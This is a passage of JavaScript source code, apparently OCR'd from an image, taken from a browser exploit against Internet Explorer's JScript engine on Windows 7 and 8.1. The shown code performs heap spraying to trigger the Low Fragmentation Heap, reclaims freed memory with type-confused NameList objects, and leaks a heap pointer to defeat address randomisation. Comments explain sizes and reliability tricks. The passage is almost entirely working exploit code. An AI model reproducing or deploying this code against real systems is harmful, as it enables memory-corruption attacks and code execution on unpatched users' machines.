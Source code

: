         for(var i = 0; i < 50; i++) { // Only 50 are needed to activate LFH, but spraying additional allocations seems to help clog existing free memory regions on the heap and improve LFH re-claim reliability on Win8.1+
            Temp = new Object();
            Temp[Array(570).join('A')] = 1; // Property name size of 0x239 (569 chars with a default +1 added as a terminator) will produce the desired re-claim allocation size.
            LFHBlocks.push(Temp);
        }

        // Re-claim with type confusion NameLists

        NewUntrackedVarSet();
        DebugLog("Total untracked variables: " + UntrackedVarSet.length.toString(10));

        for(var i = 0; i < NameListAnchorCount; i++) {
            NameListAnchors[i][SizerPropName] = 1; // 0x239 property name size for 0x970 NameList allocation size
            NameListAnchors[i]["BBBBBBBBBBB"] = 1; // 11*2 = 22 in 64-bit, 9*2 = 18 bytes in 32-bit
            NameListAnchors[i]["\u0005"] = 1; // This ends up in the VVAL hash/name length to be type confused with an integer VAR
            NameListAnchors[i]["C"] = i; // The address of this VVAL will be leaked
        }

        AnchorObjectsBackup = NameListAnchors; // Backup name list anchor objects (this will allow re-claim to "stick").

        // Leak final VVAL address from one of the NameLists

        var LeakedVvalAddress = 0;
        var TypeConfusionAligned = false;

        for(var i = 0; i < UntrackedVarSet.length; i++) {
            if(typeof UntrackedVarSet[i] === "number" && UntrackedVarSet[i] % 1 != 0) {
                LeakedVvalAddress = (UntrackedVarSet[i] / 4.9406564584124654E-324); // This division just converts the float into an easy-to-read 32-bit number
                TypeConfusionAligned = true;
                break;
            }
        }

        if(!TypeConfusionAligned) {
            DebugLog("Leaked anchor object type confusion re-claim failed: no untracked var aligned with type confusion float/next VVAL pointer");
            return 0;
        }

        LeakedVvalAddress = Int52ToDouble(LeakedVvalAddress); // In Windows 7, the leaked heap pointer could always be encoded in 32-bits. On Windows 8.1 IE11, it often consumes more. By leaking the final VVAL pointer with a double float we can get the bits we need. Experimenting with this I learned all JS numbers are 52 bits in size. In the event that the leaked pointer has its highest bits set it may be an invalid double. This hasn't be an issue on Windows 7 x64, x86, or Windows 8.1 x64 during my testing.

        if(!LeakedVvalAddress.high && !LeakedVvalAddress.low) {
            DebugLog("Leaked anchor object type confusion re-claim failed: conversion of leaked VVAL address (type confusion successful) to double failed (invalid 52-bit integer)");
            return 0;
        }
